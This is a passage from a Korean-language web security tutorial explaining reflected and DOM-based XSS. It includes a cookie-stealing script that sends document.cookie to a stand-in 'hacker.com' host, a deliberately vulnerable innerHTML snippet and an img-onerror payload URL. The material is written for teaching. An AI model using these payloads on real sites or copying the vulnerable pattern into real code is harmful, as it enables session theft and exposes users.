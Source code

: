 - **공격 과정**

  1. 공격자는 이메일, 메신저, 혹은 광고를 통해 위 URL을 사용자에게 전달한다.
  2. 사용자가 해당 링크를 클릭하면, 브라우저는 `keyword` 값에 스크립트를 담아 페이지를 로드한다.
  3. 페이지가 로드되면서 위의 JS 코드가 `location.search`에서 파라미터를 추출하고, `innerHTML`로 DOM에 삽입한다.
  4. 결과적으로 `<script>`가 실행되며, 사용자의 쿠키 정보가 외부 공격자 서버로 전송된다.

  ```html
  <h2>
  	<script>
  		document.location = 'http://hacker.com/steal?cookie=' + document.cookie;
  	</script>
  	에 대한 검색 결과
  </h2>
  ```

#### ⚠️ 문제의 핵심

- `innerHTML`을 통해 **쿼리 스트링의 값을 필터링 없이 DOM에 출력**하는 것이 핵심적인 취약점이다.
- 반사형 XSS는 서버에 저장되는 정보 없이 **즉시 실행**되므로, 탐지와 방어가 더 어렵다.

### 3. DOM 기반 XSS (DOM-based XSS)

DOM 기반 XSS는 **서버와의 통신 없이**, **브라우저에서 실행되는 자바스크립트 코드 내부에서 직접 발생하는 공격**이다.
서버는 전혀 관여하지 않기 때문에, 탐지 및 대응이 더 어려운 편이다.

#### 📝 시나리오 예시

어떤 웹사이트가 URL의 **해시(#) 값을 가져와 사용자에게 환영 메시지를 출력**하는 구조라고 가정해보자.
예를 들어, `example.com/#홍길동`으로 접속하면 “홍길동님, 환영합니다!” 라는 메시지를 보여주는 방식이다.

- **취약한 프론트엔드 코드 (Vanilla JS 예시)**

  ```html
  <div id="welcome"></div>

  <script>
  	// URL의 해시(#) 값에서 이름 추출
  	const name = decodeURIComponent(location.hash.slice(1));

  	// 이름을 HTML로 그대로 삽입 (⚠️ 매우 위험)
  	document.getElementById('welcome').innerHTML = `${name}님, 환영합니다!`;
  </script>
  ```

- **공격자가 만든 악성 URL**

  공격자는 해시 값에 악성 HTML을 삽입해 다음과 같은 URL을 만든다.

  ```
  http://example.com/#<img src=x onerror=alert('DOM XSS!')>
  ```

- **공격 과정**

  1. 공격자는 위 URL을 사용자에게 전달하고 클릭을 유도한다.
  2. 사용자가 해당 URL로 접속하면, 브라우저는 해시(#) 이후의 값을 `location.hash`를 통해 읽어들인다.
  3. 위 자바스크립트 코드는 해당 값을 필터링 없이 `innerHTML`로 삽입한다.
  4. 결과적으로 `<img src=x onerror=...>` 요소가 DOM에 삽입되고, 이미지 로딩 실패로 인해 `onerror` 이벤트가 실행되며 `alert('DOM XSS!')`가 동작한다.
